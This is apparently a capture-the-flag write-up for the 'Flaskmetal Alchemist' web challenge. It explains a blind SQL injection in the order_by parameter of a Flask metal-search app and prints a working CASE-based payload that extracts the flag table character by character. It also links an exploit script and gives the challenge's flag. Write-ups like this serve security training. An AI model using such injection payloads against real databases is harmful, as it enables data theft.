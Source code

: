 ## Flaskmetal Alchemist
> Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

Source: [fma.zip](fma.zip?raw=true)
App have a sql injection bugs (order by type) in module __Seach metals__, parameter _order_by_
![Alt text](fma.png?raw=true "Title")
With Table structure found in source code, (table name __flag__ and column name _flag_), i generate payload for exploit sqli:
```
search=Be&order=(case+when+(select+unicode(substr(flag,1,1))+from+flag)%3d102+then+atomic_number+else+name+end)
```
Exploit code in [exploit.py](exploit.py?raw=true)
Flag: `flag{order_by_blind}`